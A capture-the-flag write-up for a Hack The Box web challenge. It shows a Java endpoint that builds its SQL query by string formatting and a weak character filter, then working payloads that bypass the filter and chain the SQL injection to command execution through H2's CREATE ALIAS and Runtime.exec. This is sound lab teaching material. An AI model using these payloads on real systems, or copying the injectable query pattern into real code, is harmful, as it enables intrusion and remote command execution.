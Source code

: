 # Pentest Notes

## Solutions
We can login using default user account (user,123)
```sql
INSERT INTO users (id, username,password) VALUES (1, 'user', '123');
```

```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```
First glance at the note function, we can see that there is no restriction for name parameter. And after i put a ' OR 1=1;-- in the payload, it return all the notes. 
![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/SQLI.png)

So that it is a SQLi, and we need somehow to chain this to RCE so that we can read the flag.
After searching around, i saw a interesting [writeup](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2).

So for short, H2 database allows us to create a function that execute Java code through ALIAS
```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
So here is our function but there are some conditions.
```java
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
```
We cannot use `$` or the `CONCAT` function. Fortunately, we can bypass this restriction since the `CREATE ALIAS` expects a String, so we don't need to use `$`.
So out payload would be 
```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }';--
```
After injecting this function to the database,what we need now is just call out the function.
```sql
' UNION SELECT NULL,NULL,EXECVE('ls') AS note;--
```
We need to 2 first null so that it can match the collumns

![Executin](https://github.com/tunsimp/CTF/blob/main/HTB/Pentest%20Notes/screenshot.png)


